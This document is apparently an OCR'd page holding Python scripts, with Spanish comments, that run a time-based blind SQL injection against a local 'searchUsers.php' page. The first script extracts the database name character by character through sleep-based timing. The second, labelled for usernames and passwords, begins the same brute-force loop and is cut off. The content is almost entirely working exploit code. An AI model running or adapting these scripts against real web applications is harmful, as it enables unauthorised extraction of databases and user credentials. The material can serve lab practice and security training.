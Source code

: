 ```python
    p2 = log.progress("Datos recopilados:")

    extracted_info = ""

    time.sleep(2)

    for position in range(1, 100):
        for character in range(33,126):
            sqli_url = main_url + "?id=1 and if(ascii(substr(database(),%d,1))=%d,sleep(0.35),1)" % (position, character)

            time_start = time.time()

            r = requests.get(sqli_url)
            
            time_end = time.time()

            if time_end - time_start > 0.35:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':

    makeSQLI()
```


## Script username-password

```python
#!/usr/bin/env python3

import requests
import signal
import sys
import time
from pwn import *
import string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    p2 = log.progress("Datos recopilados:")

    extracted_info = ""

    time.sleep(2)

    for position in range(1, 100):
```
